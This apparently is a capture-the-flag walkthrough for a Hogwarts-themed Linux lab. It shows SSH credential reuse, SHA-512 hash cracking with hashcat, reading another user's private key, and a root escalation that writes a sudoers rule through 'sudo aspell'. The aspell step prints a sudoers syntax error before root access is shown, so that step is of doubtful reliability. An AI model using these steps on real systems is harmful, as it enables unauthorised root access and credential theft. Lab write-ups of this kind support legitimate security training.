

# Yer a Wizard 2 Hogwarts Privilege Escalation

## Techniques used

- SSH login reuse from a previous challenge
- Owner-bypass on a zero-permission file
- Hash cracking
- Group-based file access
- Private key exposure via incorrect file permissions
- GTFOBins privilege escalation
- Multi-layer decoding

## Tools used

- ssh
- hashcat
- python3 (hex / Base64 / Base32 decoding)
- aspell
- sudo

## Commands and output

### 1. SSH login as hagrid

Reusing the credentials found in the previous challenge.

```bash
$ ssh hagrid@10.10.0.68
Password: IAlreadySaidTooMuch
```

### 2. Home directory listing

```bash
$ ls -la
```

```text
drwxr-xr-x 1 hagrid hagrid     4096 Aug 27 09:43 .
drwxr-xr-x 1 root   root       4096 Aug 27 09:43 ..
-rw-r--r-- 1 hagrid hagrid      220 May  9 11:07 .bash_logout
-rw-r--r-- 1 hagrid hagrid     3526 May  9 11:07 .bashrc
-rw-r--r-- 1 hagrid hagrid      807 May  9 11:07 .profile
drwxr-xr-x 1 hagrid headmaster 4096 Aug 27 09:43 .ssh
drwxr-xr-x 1 hagrid hagrid     4096 Jul 23 13:42 hut
---------- 1 hagrid hagrid      2097 Jul 23 13:42 riddle.txt
-rw-r--r-- 1 hagrid hagrid        97 Jul 23 13:42 user.txt
```

`riddle.txt` has no permission bits at all, not even for its owner. `.ssh` belongs to a `headmaster` group, not `hagrid`.

### 3. Owner bypass on riddle.txt

```bash
$ chmod 644 riddle.txt
$ cat riddle.txt
```

```text
Professor dumbledore gave me this riddle, but I don't think I can decipher this.
He said "take a crack at it, would you?" which is odd for him to say, I guess?

e1f22cea2a1c41f047b36b505a6aede84a848209c69505ac17ffdaebd7ba63c98e69f68f755134d7b94d47d0c86c1aea72f39fa4e89457cf8b25f19cd1b2dd33
...
496e20666163742c2074686973207761732073696d706c652c207472756c792c207468652070617373776f72642069732042794d65726c696e4265617264210a
...
```

14 lines look like SHA2-512 hashes. One line is not a hash at all, it is plain ASCII text encoded in hexadecimal.

### 4. Decoding the hex line

```bash
$ python3 -c "print(bytes.fromhex('496e20666163742c2074686973207761732073696d706c652c207472756c792c207468652070617373776f72642069732042794d65726c696e4265617264210a').decode())"
```

```text
In fact, this was simple, truly, the password is ByMerlinBeard!
```

### 5. Cracking the remaining hashes

The other 13 lines are SHA2-512 hashes, cracked instantly with rockyou:

```bash
$ hashcat -m 1700 -a 0 riddle_hashes.txt rockyou.txt -o cracked.txt
```

Reassembling the cracked words in hash order spells out a hint sentence: *"Look harder into this fine list and maybe you will find a fine password"*

### 6. SSH login as dumbledore

```bash
$ ssh dumbledore@10.10.0.68
Password: ByMerlinBeard!
```

`id` confirms membership in the `headmaster`:

```text
uid=1002(dumbledore) gid=1002(dumbledore) groups=1002(dumbledore),1003(headmaster)
```

### 7. Enumerating sudo rights

```bash
$ ls -la /etc/sudoers.d/
$ cat /etc/sudoers.d/harry
```

```text
harry ALL=(root) NOPASSWD: /usr/bin/aspell
```

### 8. Reading harry's private SSH key

```bash
$ ls -la /home/harry/.ssh/
```

```text
-rw-r--r-- 1 harry headmaster  100 Jul 23 13:42 authorized_keys
-rw-r--r-- 1 harry headmaster  411 Jul 23 13:42 id_ed25519
-rw-r--r-- 1 harry headmaster  100 Jul 23 13:42 id_ed25519.pub
```

```bash
$ cat /home/harry/.ssh/id_ed25519
```

### 9. SSH login as harry

```bash
$ chmod 600 id_ed25519_harry
$ ssh -i id_ed25519_harry harry@10.10.0.68
```

```bash
$ sudo -l
```

```text
User harry may run the following commands on hogwarts:
    (root) NOPASSWD: /usr/bin/aspell
```

### 10. Privilege escalation via aspell

`aspell` ispell-compatible pipe mode (`-a`) can insert an arbitrary line into any personal dictionary file it creates, as root, bypassing word validation:

```bash
$ printf '*harry ALL=(ALL) NOPASSWD: ALL\n#\n' | sudo aspell -a --dont-validate-words --dont-clean-words --personal=/etc/sudoers.d/pwn
```

```text
/etc/sudoers.d/pwn:1:20: syntax error
personal_ws-1.1 en 1
```


### 11. Root confirmed

```bash
$ sudo whoami
```

```text
root
```

### 12. Reading root.txt

```bash
$ sudo cat /root/root.txt
```

```text
53565a4a52564d324d315648546b56474e6a564455303957533064525746705353314a5156454e4f537a6448556c425555553161565539574d6b5244576c4e57536c4a5156456b7a5530564d4e544a45527a5255553064464e45565a5454493354314a5652454d7a556c705156555a425054303950513d3d
```

### 13. Decoding the flag (hex → Base64 → Base32)

```bash
$ python3 -c "
import base64
h = '53565a4a52564d324d315648546b56474e6a564455303957533064525746705353314a5156454e4f537a6448556c425555553161565539574d6b5244576c4e57536c4a5156456b7a5530564d4e544a45527a5255553064464e45565a5454493354314a5652454d7a556c705156555a425054303950513d3d'
step1 = bytes.fromhex(h)
step2 = base64.b64decode(step1)
step3 = base64.b32decode(step2)
print(step3.decode())
"
```

## Evidence

- Password (dumbledore): `ByMerlinBeard!`
- Sudo escalation: GTFOBins `aspell` arbitrary file write
- Flag: `EPI{t3H_tRuTh_1T_15_4_834ut1fUL_4nD_t3rr18L3_th1n9}`
